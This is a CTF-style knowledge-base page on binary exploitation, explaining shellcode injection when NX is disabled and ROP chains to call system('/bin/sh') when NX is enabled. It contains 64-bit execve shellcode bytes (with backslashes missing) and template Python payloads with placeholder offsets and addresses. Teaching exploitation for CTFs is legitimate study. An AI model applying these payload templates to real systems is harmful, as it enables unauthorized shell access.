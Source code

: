 ```yaml
---
title: ROP Chains and Shellcode Injection
parent: Protection Bypass
grand_parent: Pwn
great_grand_parent: Knowledge Base
nav_order: 6
---
```


# ROP Chains and Shellcode Injection

This guide explains how to proceed based on whether the binary has **NX enabled** or **NX disabled**.

---

## Shellcode Injection (When NX is Disabled)

If NX (No-eXecute) is **disabled**, memory regions like the stack are executable.

### Exploitation Strategy

1. Overflow the buffer.
2. Inject custom shellcode onto the stack.
3. Overwrite the return address (RIP) to point to your shellcode.

### Example Shellcode (64-bit)

Execve shellcode to spawn a shell (`/bin/sh`):

```assembly
x48x31xd2                                  // xor    rdx, rdx
x48xbbxffx2fx62x69x6ex2fx73x68      // movabs rbx, 0x68732f6e69622fff
x53                                          // push   rbx
x48x89xe7                                  // mov    rdi, rsp
x50                                          // push   rax
x57                                          // push   rdi
x48x89xe6                                  // mov    rsi, rsp
xb0x3b                                      // mov    al, 0x3b
x0fx05                                      // syscall
```

### Payload Layout

```
[ padding to overflow buffer ]
[ shellcode ]
[ padding to reach RIP ]
[ stack address pointing to shellcode ]
```

Example Payload:
```python
payload = b"A" * offset
payload += shellcode
payload += b"B" * (rip_offset - len(shellcode))
payload += p64(shellcode_address)
```

---

## ROP Chain (When NX is Enabled)

If NX is **enabled**, the stack cannot be executed — you cannot jump to shellcode. You must reuse existing executable code (ROP).

### Exploitation Strategy

1. Find a leak to get libc or binary base address.
2. Find useful gadgets (`pop rdi; ret`, etc.).
3. Build a ROP chain to call `system("/bin/sh")`.

### Common Gadgets (64-bit)

- `pop rdi; ret` — to set up the first argument in `rdi`.
- Addresses of `system` and `"/bin/sh"` in libc.

### Typical ROP Payload

```
[ padding to overflow buffer ]
[ pop rdi; ret gadget address ]
[ address of "/bin/sh" string ]
[ address of system() function ]
```

Example:
```python
payload = b"A" * offset
payload += p64(pop_rdi_ret)
payload += p64(binsh_addr)
payload += p64(system_addr)
```

---

## Notes

- **NX disabled**: Use shellcode — easy.
- **NX enabled**: Use ROP chains — requires libc or binary leak.
- **64-bit ROP**: Arguments passed in registers (rdi, rsi, rdx).
- **32-bit ROP**: Arguments passed on the stack — different calling convention.

For information on how to leak libc addresses, see [Infoleak Techniques](infoleak.md).
